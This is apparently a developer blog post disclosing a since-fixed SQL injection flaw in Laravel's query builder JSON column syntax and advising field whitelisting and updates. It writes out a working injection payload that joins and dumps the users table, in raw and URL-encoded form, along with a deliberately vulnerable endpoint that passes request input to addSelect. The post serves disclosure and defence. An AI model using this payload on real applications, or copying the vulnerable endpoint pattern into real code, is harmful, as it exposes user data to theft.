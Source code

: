 I recently learned that not all query builder functionality in Laravel is "safe".
This means that user input shouldn't be passed directly to it, 
as it might expose your application to SQL injection vulnerabilities.

{{ ad:carbon }}

The past few days it became clear that there is little community knowledge about these unsafe functions. 
Many developers assume, as did I, that the Laravel query builder completely prevents SQL injection attacks.

This blog post aims to raise awareness about what's safe, and what's not.

## An SQL injection vulnerability?

Let's start by mentioning that this vulnerability has been fixed as of [Laravel 5.8.11](*https://github.com/laravel/framework/commits/v5.8.11).
While technically we could call this a "vulnerability", 
Laravel developers should know that they also play a role in preventing these kinds of issues.

Let's examine the issue.

Laravel has the ability to manually specify which columns to select on a query.
It also offers the shorthand notation to query JSON data:

```
<hljs type>Blog</hljs>::<hljs prop>query</hljs>()
    -><hljs prop>addSelect</hljs>('<hljs green>title</hljs>-><hljs blue>en</hljs>');
```

```
<hljs keyword>SELECT</hljs> <hljs prop>json_extract</hljs>(`<hljs green>title</hljs>`, '$."<hljs blue>en</hljs>"') <hljs keyword>FROM</hljs> blogs;
```

Instead of manually writing `json_extract`, we can use the simplified `->` syntax, 
which Laravel will convert to the correct SQL statement.

Be careful though: Laravel won't do any escaping during this conversion. 
Consider the following example:

```
<hljs type>Blog</hljs>::<hljs prop>query</hljs>()
    -><hljs prop>addSelect</hljs>('<hljs green>title</hljs>-><hljs blue>en</hljs><hljs red>'#</hljs>');
```

By inserting `'#` in our input, we can manually close the `json_extract` function, 
and ignore the rest of the query:

```
<hljs keyword>SELECT</hljs> <hljs prop>json_extract</hljs>(`<hljs green>title</hljs>`, '$."<hljs blue>en</hljs><hljs red>'#</hljs><hljs textgrey>"') FROM blogs;</hljs>
```

This query will fail because of syntax errors, but what about the next one?

```
<hljs keyword>SELECT</hljs> <hljs prop>json_extract</hljs>(
    `<hljs green>title</hljs>`, 
    '$."<hljs blue>en</hljs><hljs red>"')) 
FROM blogs RIGHT OUTER JOIN users ON users.id <> null
#</hljs>
    <hljs textgrey>"') FROM blogs;</hljs>
```

We're adding an outer join on the `users` table. 
Essentially selecting all data in it. 

For reference, this is the URL encoded version of the malicious code:

```
<hljs red>%22%27%29%29+FROM+blogs+RIGHT+OUTER+JOIN+users+ON+users.id+%3C%3E+null%23</hljs>
```

Say we have the following endpoint in our application, to query blog posts from a public API:

```php
<hljs type>Route</hljs>::<hljs prop>get</hljs>('/posts', function (<hljs type>Request</hljs> $request) {
    $fields = $request-><hljs prop>get</hljs>('fields', []);

    $users = <hljs type>Blog</hljs>::<hljs prop>query</hljs>()-><hljs prop>addSelect</hljs>($fields)-><hljs prop>get</hljs>();

    return <hljs prop>response</hljs>()-><hljs prop>json</hljs>($users);
});
```

Consumers of this API might only be interested in a few fields, 
that's why we added a `fields` filter.
Something similar to [sparse fieldsets](*https://jsonapi.org/format/#fetching-sparse-fieldsets) from the JSON api spec.

The endpoint can now be used like this:

```
/blog?fields[]=url&fields[]=title
```

Now we insert our malicious code instead:

```
/blog?fields[]=<hljs red>%22%27%29%29+FROM+blogs+RIGHT+OUTER+JOIN+users+ON+users.id+%3C%3E+null%23</hljs>
```

It will be added to the query. And by returning the query result as JSON, 
we'll see the full contents of the users table. 

```php
<hljs type>Blog</hljs>::<hljs prop>query</hljs>()-><hljs prop>addSelect</hljs>([
    '<hljs red>%22%27%29%29+FROM+blogs+RIGHT+OUTER+JOIN+users+ON+users.id+%3C%3E+null%23</hljs>'
])-><hljs prop>get</hljs>();
```

Two things need to be in place for this attack to be possible:

- An accessible API endpoint, which allows an attacker to pass his malicious code to `select` or `addSelect`.
Chances are you're not doing this manually in your project.
Though there are popular packages which provide this functionality for easy API endpoints and URL filtering.
- The entry point table must have a column with JSON data.
Otherwise the `json_extract` function will fail, stopping our query. 
From the entry point though, you can access all data.



## Prevention?

As mentioned before, this particular vulnerability has been fixed as of [Laravel 5.8.11](*https://github.com/laravel/framework/commits/v5.8.11).
It's always good to keep up to date with the latest Laravel version.

More importantly though, developers should never allow user input directly to specify columns, without a whitelist.
In our previous example, you could prevent this attack by only allowing certain fields to be requested, 
this would prevent the issue completely.

Next, one of our widely-used packages, `spatie/laravel-querybuilder`, 
opened up `addSelect` by design. 
This meant that websites using our package, were vulnerable to the underlying issue.
We immediately fixed it and Freek [wrote about it](*https://murze.be/an-important-security-release-for-laravel-query-builder) in depth.
If you're using our package and unable to update to the latest Laravel version, 
you should immediately update the package.

Finally, the [Laravel docs](*https://laravel.com/docs/5.8/queries) have also been updated 
to warn developers not to pass user input directly to columns when using the query builder.  
